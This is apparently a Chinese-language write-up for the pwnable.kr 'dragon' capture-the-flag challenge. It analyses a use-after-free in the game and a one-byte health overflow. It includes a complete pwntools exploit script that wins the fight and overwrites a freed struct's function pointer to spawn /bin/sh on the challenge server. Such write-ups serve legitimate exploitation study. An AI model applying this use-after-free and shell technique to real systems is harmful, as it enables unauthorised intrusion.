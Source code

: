 # Pwnable-Kr-Rookiss

### dragon

>I made a RPG game for my little brother.
>But to trick him, I made it impossible to win.
>I hope he doesn't get too angry with me :P!
>
>Author : rookiss
>Download : http://pwnable.kr/bin/dragon
>
>Running at : nc pwnable.kr 9004
>
>On Aug 1,2018

UAF的一道「简单题」，但我不会。。。pwn做的太少了

#### 简要分析

简单说一下为什么会有UAF漏洞，程序在`FightDragon`函数里声明了两个结构体`ptr`和`v5`，大小均为`0x10`，分别代表dragon和player。由于在`attack`函数中player的指针不论是失败或是胜利都会被free，但是这个指针并没有指向NULL，导致下一次malloc相同大小的空间时会分配到同一地址，当我们把修改这次的内容时实际上覆盖了player的内容，所以可以在这里「搞事情」。

用IDA看伪代码的时候觉得这肯定不用打赢龙的，于是一直在找「外围」的函数的利用点，但没找到什么有用的。之后看了别人的wp后发现是可以打赢龙的，并且非赢不可。

之所以能够打赢龙是因为「龙的血量」的数据大小是1个字节，即最大127，当更大时造成溢出变成负值，这时符合胜利条件。

之所以非赢不可是因为胜利之后会进入如下代码块

```c
  if ( v3 )
  {
    puts("Well Done Hero! You Killed The Dragon!");
    puts("The World Will Remember You As:");
    v2 = malloc(0x10u);
    __isoc99_scanf("%16s", v2);
    puts("And The Dragon You Have Defeated Was Called:");
    ((void (__cdecl *)(_DWORD *))*v5)(v5);
  }
```

这里的`v2`分配的大小是`0x10`，和上面的结构体大小相同，于是`v2`的地址和`player`的地址相同，这时我们可以把`system('/bin/sh')`的地址输入，在最后一行调用的时候就相当于`getshell`了:-)

#### exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'L1B0'

from pwn import *
import sys
context.log_level = 'debug'

if sys.argv[1] == 'loc':
	io = process('./dragon')
else:
	io = remote('pwnable.kr',9004)

sys_addr = 0x08048DBF

def playGame():
	
	for i in range(4):
		io.sendline('1')
	for i in range(4):
		io.sendline('3\n3\n2\n')
	io.sendline(p32(sys_addr))

if __name__ == "__main__":
	
	playGame()
	io.interactive()
```



